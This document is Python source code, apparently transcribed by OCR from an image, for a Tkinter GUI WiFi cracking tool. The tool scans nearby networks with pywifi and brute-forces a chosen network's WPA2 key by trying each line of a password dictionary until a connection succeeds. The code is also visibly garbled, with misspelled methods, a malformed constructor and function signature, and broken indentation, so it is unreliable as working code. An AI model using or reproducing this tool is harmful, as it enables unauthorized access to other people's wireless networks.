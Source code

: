 # -# coding:utf-8

from tkinter import *
from tkinter import ttk
import pywifi
from pywifi import const
import time
import tkinter.filedialog
import tkinter.messagebox

class MY_GUI():
    def _init_(self,init_window_name):
        self.init_window_name = init_window_name

        #密码文件路径StingVar()这个函数干嘛用的?
        self.get_value = StringVar()

        #获取破解wifi账号
        self.get_wifi_value = StringVar()

        #获取wifi密码
        self.get_wifimm_value = StringVar

        self.wifi = pywifi.PyWiFi() #抓取网卡接口
        self.iface = self.wifi.interfaces()[0] #抓取第一个无线网卡
        self.iface.disconnect() #测试链接断开所有链接
        time.sleep(1) #休眠1秒
        #测试网卡是否属于断开状态
        assert self.iface. status() in\
               [const.IFACE_DISCONNECTED,const.IFACE_INACTIVE]

    def _str_(self):
        return '(WIFI:%s,%s)' % (self.wifi,self.iface.name())

    #设置窗口
    def set_init_window(self):
        self.init_window_name.title("WIFI破解工具")
        self.init_window_name.geometry('+500+500')  # x*y +|-x +|-y 前面表长宽 后面表相对屏幕位置
        labelframe = LabelFrame(width=400,height=200,text="配置")
        labelframe.grid(column=0,row=0,padx=10,pady=10)

        self.search = Button(labelframe,text="搜索附近WiFi",command=self.scans_wifi_list),grid(column=0,row=0)

        self.pojie = Button(labelframe,text="开始破解",command=self.readPassWord),grid(column=1,row=0)

        self.label=Label(labelframe,text="目录路径:").grid(column=0,row=1)

        self.path=Entry(labelframe,width=12,textvariable = self.get_value).grid(column=1,row=1)

        self.file = Button(labelframe,text="添加密码文件目录"，command=self.add_mm_file).grid(column=2,row=1)

        self.wifi_text = Label(labelframe,text="WiFi账号:").grid(column=0,row=2)

        self.wifi_input = Entry(labelframe,width=10,textvariable = self.get_wifimm_value).grid(column=3,row=2,sticky=W)

        self.wifi_labelframe = LabelFrame(text="wifi列表")
        self.wifi_labelframe.grid(column=0,row=3,columnspan=4,sticky=NSEW)



        # 定义树形结构与滚动条
        self.wifi_tree = ttk.Treeview(self.wifi_labelframe,show="headings",columns=("a","b","c","d"))
        self.vbar = ttk.Scrollbar(self,wifi_labelframe,orient=VERTICAL,command=self.wifi_tree.yview)
        self.wifi_tree.configure(yscrollcommand=self.vbar.set)

        # 表格标题
        self.wifi_tree.column("a",width=50,anchor="center")
        self.wifi_tree.column("b",width=100,anchor="center")
        self.wifi_tree.column("c",width=100,anchor="center")
        self.wifi_tree.column("d",width=100,anchor="center")

        self.wifi_tree.heading("a",text="WiFiID")
        self.wifi_tree.heading("b",text="SSID")
        self.wifi_tree.heading("c",text="BSSID")
        self.wifi_tree.heading("d",text="signal")

        self.wifi_tree.grid(row=4,column=0,sticky=NSEW)
        self.wifi_tree.bind("<Double-1>",self.onDBClick)
        self.vbar.grid(row=4,column=1,sticky=NS)

    #搜索wifi
    #cmd /k C:\Python27\python.exe"$(FULL_CORRENT_PATH)" & PAUSE & EXIT
    def scans_wifi_list(self):  #  扫描周围wifi列表
        #开始扫描
        print("^_^ 开始扫描附近wifi...")
        self.iface.scan()
        time.sleep(15)
        #在若干秒后获取扫描结果
        scanres = self.iface.scan_results()
        #统计附近被发现热点数量
        nums = len(scanres)
        print("数量：%s"%(nums))
        #print("| %s | %s | %s | %s"%("WIFIID","SSID","BSSID","signal"))
        #实际数据
        self.show_scans_wifi_list(scanres)
        return scanres

    #显示wifi列表
    def show_scans_wifi_list(self,scans_res):
        for index,wifi_info in enumerate(scans_res):
                 # print("%-*s| %s | %*s |%*s\n"%(20,index,wifi_info.ssid,wifi_info.bssid,wifi_info.signal))
            self.wifi_tree.insert("",'end',values=(index + 1 ,wifi_info.ssid,wifi_infobssid,wifi_info.signal))
            #print("| s% | s% | s% | %*s |%*s\n"%(index,wifi_info.ssid,wifi_info.bssid,wifi_info.signal))

    #添加密码文件目录
    def add_mm_file(self):
        self.filename = tkinter.filedialog.askopenfilename()
        self.get_value.set(self.filename)

    #Treeview绑定事件
    def onDBClick(self,event):
        self.sels= event.widget.selection()
        self.get_wifi_value.set(self.wifi_tree.item(self.sels,"values")[1])
        #print("you clicked on",self.wifi_tree.item(self.sels,"values")[1])

    #读取密码字典,进行匹配
    def readPassWord(self):
        self.getFilePath = self.get_value.get()
        #print("文件路径: %s\n" %(self.getFilePath))
        self.get_wifissid = self.get_wifi_value.get()
        #print("ssid: %s\n" %(self.get_wifissid))
        self.pwdfilehander=open(self.getFilePath,"r",errors="ignore")
        while True:
            try:
                self.pwdStr =self.pwdfilehander.raedline()
                #print("密码: %s " %(self.pwdStr))
                if not self.pwdStr:
                    break
                self.bool1=self.connect(self.pwdStr,self.get_wifissid)
                #print("返回值: %s\n" %(self.bool1))
                if self.bool1:
                    # print("密码正确: "+pwdStr)
                    # res = "密码:%s 正确 \n"%self.pwd.pwdStr;
                    self.res = "===正确=== wifi名:%s 匹配密码: %s "%(self.get_wifissid,self.pwdStr)
                    self.get_wifimm_value.set(self.pwdStr)
                    tkinter.messagebox.showinfo('提示','破解成功!!!')
                    print(self.res)
                    break
                else:
                    #print("密码:"+self.pwdStr+"错误")
                    self.res = "---错误--- wifi名:%s匹配密码: %s"%(self.get_wifissid,self.pwdStr)
                    print(self.res)
                   sleep(3)
                except:
                    continue

    #对wifi和密码进行匹配
    def connect(self.pwd_Str,wifi_ssid):
        #创建wifi链接文件
        self.profile = pywifi.Profile()
        self.profile.ssid =wifi_ssid #wifi名称
        self.profile.auth = const.AUTH_ALG_OPEN #网卡开放
        self.profile.akm.append(const.AKM_TYPE_WPA2PSK)#wifi加密算法
        self.profile.cipher = const.CIPHER_TYPE_CCMP  #加密单元
        self.profile.key = pwd_Str #密码
        self.profile.remove_all_netword_profiles() #删除所有的wifi文件
        self.tmp_profile = self.iface.add_network_profile(self.profile)#设定新的链接文件
        self.iface.connect(self.tmp_profile)#链接
        time.sleep(5)
        if self.iface.status() == const.IFACE_CONNECTED:  #判断是否连接上
            isOK=True
        else:
            isOK=False
        self.iface.disconnect() #断开
        time.sleep(1)
        #检查断开状态
        assert self.iface.status() in\
            [const.IFACE_DISCONNECTED,const.IFACE_INACTIVE]
        return isOK
    def gui_start():
        init_window = Tk()
        ui = MY_GUI(init_window)
        print(ui)
        ui.set_init_window()
        #ui.scans_wifi_list()

        init_window.mainloop()

    gui_start()
